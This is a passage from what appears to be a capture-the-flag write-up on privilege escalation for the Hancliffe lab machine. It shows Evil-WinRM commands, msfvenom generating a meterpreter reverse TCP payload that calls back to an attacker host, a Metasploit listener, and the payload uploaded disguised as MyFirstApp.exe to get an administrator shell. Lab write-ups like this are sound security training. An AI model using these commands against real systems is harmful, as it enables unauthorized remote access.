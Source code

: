 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        10/10/2021   1:53 PM                devapp


*Evil-WinRM* PS C:\ > cp \old\restart.ps1 \devapp
*Evil-WinRM* PS C:\ > cd \devapp
```

create payload on your machine
```
 msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.138 LPORT=1237 -f exe -o exploit.exe
```
Listen using multi/handler
```
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_tcp
payload => windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.138
lhost => 10.10.14.138
msf6 exploit(multi/handler) > set lport 1237
lport => 1237
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.138:1237

```
Uploading your exploit generated by msfconsole
```
*Evil-WinRM* PS C:\devapp> upload exploit.exe MyFirstApp.exe
Info: Uploading exploit.exe to C:\devapp\MyFirstApp.exe

```
After some time You will get a shell as administrator

<img src='/assets/img/root-Hancliffe.png' alt='root'>


Intended

look from those links to understand

<a href="https://www.youtube.com/watch?v=kA-bkftyyY0&t=3300s" target="_blank" rel="noopener">IPPSEC'S EXPLANATION</a>


<a href="https://www.youtube.com/watch?v=r4aaNt7f-lM" target="_blank" rel="noopener">OXDF'S EXPLANATION</a>
